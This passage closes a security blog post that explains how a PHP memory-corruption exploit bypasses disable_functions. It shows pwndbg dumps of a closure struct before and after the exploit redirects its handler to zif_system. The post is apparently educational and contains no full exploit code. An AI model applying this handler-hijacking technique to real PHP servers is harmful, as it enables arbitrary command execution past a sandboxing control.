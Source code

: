 ```
pwndbg> p (*(zend_closure *) 0x7ffff38652c0)->func->internal_function
$3 = {
  type = 2 '\002',
  arg_flags = "\000\000",
  fn_flags = 135266304,
  function_name = 0x7ffff3801d70,
  scope = 0x0,
  prototype = 0x7ffff38652c0,
  num_args = 1,
  required_num_args = 1,
  arg_info = 0x7ffff387c0f0,
  handler = 0x7ffff3879068,
  module = 0x2,
  reserved = {0x7ffff3873280, 0x1, 0x7ffff3879070, 0x0, 0x0, 0x0}
}
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The exploit creates a fake closure object copying the values and changing the type to the value "1" (internal function) and the handle to the zif_system location, so this function will be called instead:

```
pwndbg> p (*(zend_closure *) 0x7ffff38929a8)->func->internal_function
$4 = {
  type = 1 '\001',
  arg_flags = "\000\000",
  fn_flags = 135266304,
  function_name = 0x7ffff3801d70,
  scope = 0x0,
  prototype = 0x7ffff38652c0,
  num_args = 1,
  required_num_args = 1,
  arg_info = 0x7ffff387c0f0,
  handler = 0x5555559fa20b <zif_system>,
  module = 0x2,
  reserved = {0x7ffff3873280, 0x1, 0x7ffff3879070, 0x0, 0x0, 0x0}
}
```

## Conclusions
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
I hope this brief post can be useful to understand how disable_functions works and how the memory corruptions are used in order to achieve a bypass. As long as you can run arbitrary code inside the process you are going to be able to call any function inside the binary. If you find any error or typo, feel free to ping me at twitter ([@TheXC3LL](https://twitter.com/TheXC3LL)) so I can fix it.


